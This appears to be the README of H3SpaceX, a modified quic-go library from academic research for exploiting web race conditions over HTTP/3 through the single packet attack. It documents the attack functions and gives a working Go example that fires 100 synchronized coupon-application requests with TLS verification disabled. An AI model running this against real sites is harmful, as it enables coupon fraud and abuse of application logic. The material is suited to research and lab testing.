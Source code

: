 # H3SpaceX
H3SpaceX library is manipulated version of [quic-go](https://github.com/quic-go/quic-go) to 
enable the Single Packet Attack (Last Frame Synchronization) in HTTP/3 (QUIC). 
This library was part of an academic research with title of **Exploiting Race Conditions in Web Applications with HTTP/3**.

## Library Usage (how to exploit last frame synchronization - also known as single packet attack on HTTP/3)
There are two methods for exploiting last frame synchronization:

- Function `SendRequestsWithLastFrameSynchronizationMethod`:
- This function is for requests `which have body`!
- Function parameters:
  - first param gets QUIC connection (type: quic.Connection)
  - second param gets an array of requests which need to be sent.
  - third param is for number of bytes which needs to be kept from end of the DATA frame. (at least & best 1)
  - fourth param is for number of milliseconds which library waits before sending last DATA frames
  - fifth param is for setting or unsetting Content-Length header. If false, the Content-Header will not be set, unless you set it directly in requests headers
- Function return:
  - a map of requests with value of their response
```go
func SendRequestsWithLastFrameSynchronizationMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	lastByteNum int,
	sleepMillisecondsBeforeSendingLastByte int,
	setContentLength bool,
) map[*http.Request]*http.Response
```

- Function `SendGetNoBodyRequestsWithSinglePacketAttackMethod`:
- This function is for requests `which do *not* have body`!
- Function parameters:
    - first param gets QUIC connection (type: quic.Connection)g
    - second param gets an array of requests which need to be sent.
- Function return:
    - a map of requests with value of their response
```go
func SendGetNoBodyRequestsWithSinglePacketAttackMethod(quicConn quic.Connection,
	allRequests []*http.Request,
) map[*http.Request]*http.Response
```

### Installation

    go get github.com/nxenon/h3spacex


### Steps to Call Functions
- Import libraries
- Create TLS config 
- Create QUIC config
- create a list of requests (use http3.GetRequestObject function) and append them into requests list
- Establish QUIC connection
- Call http3.SendRequestsWithLastFrameSynchronizationMethod `or` http3.SendGetNoBodyRequestsWithSinglePacketAttackMethod methods based on your needs
```go
package main

import (
	"crypto/tls"
	"fmt"
	"strings"

	"context"
	"github.com/nxenon/h3spacex"
	"github.com/nxenon/h3spacex/http3"
	"io"
	"net/http"
	"os"
	"time"
)

func main() {
	tlsConf := &tls.Config{
		InsecureSkipVerify: true,
		NextProtos:         []string{http3.NextProtoH3},
	}

	quicConf := &quic.Config{
		MaxIdleTimeout:  10 * time.Second,
		KeepAlivePeriod: 10 * time.Millisecond,
	}

	var allRequests []*http.Request

	headers := map[string]string{
		"Cookie":       "x=y",
		"Content-Type": "application/json", // sample
	}

	reqBody := "{\"couponValue\":\"Coupon1\"}"

	for i := 0; i < 100; i++ { // 100 requests
		req, err2 := http3.GetRequestObject("https://DOMAIN.COM/api/cart/apply_coupon", "POST", headers, []byte(reqBody))
		if err2 != nil {
			fmt.Println("Error creating request: ", err2)
			continue
		}
		allRequests = append(allRequests, &req)
	}

	dialAddress := "IP:PORT" // destination IP address and UDP port
	ctx := context.Background()
	quicConn, err := quic.DialAddr(ctx, dialAddress, tlsConf, quicConf)
	if err != nil {
		fmt.Printf("Error Connecting to %s. Erorr: %s", dialAddress, err)
		os.Exit(1)
	}

	allResponses := http3.SendRequestsWithLastFrameSynchronizationMethod(quicConn, allRequests, 1, 150, true)

	for req, res := range allResponses {
		fmt.Printf("for request to %s\n", req.URL)
		fmt.Println("+---Headers---+")
		fmt.Printf("Status Code: %d\n", res.StatusCode)
		for key, value := range res.Header {
			fmt.Printf("%s: %s\n", key, value[0])
		}
		fmt.Println("+---Body---+")
		body, err3 := io.ReadAll(res.Body)
		if err3 != nil {
			fmt.Println("Error reading response body:", err3)
			continue
		}
		fmt.Println(string(body))

	}
}

```


## Exploits Sample
See [Exploit](./exploit) Directory. It contains:
- [Last Frame Synchronization for Requests with a Body](exploit/README.md#last-frame-synchronization-for-requests-with-a-body)
- [Last Frame Synchronization for Requests without Body (GET requests within a single packet)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-within-a-single-packet)
- [Last Frame Synchronization for Requests without Body (GET requests with FAKE DATA Frames)](exploit/README.md#last-frame-synchronization-for-requests-without-body-get-requests-with-fake-data-frames)

## Lab (HTTP/2/3 Web Application)
For testing exploits see [Rc-H3-WebApp](https://github.com/nxenon/rc-h3-webapp/) repo.

## References
- [quic-go](https://github.com/quic-go/quic-go) as base library
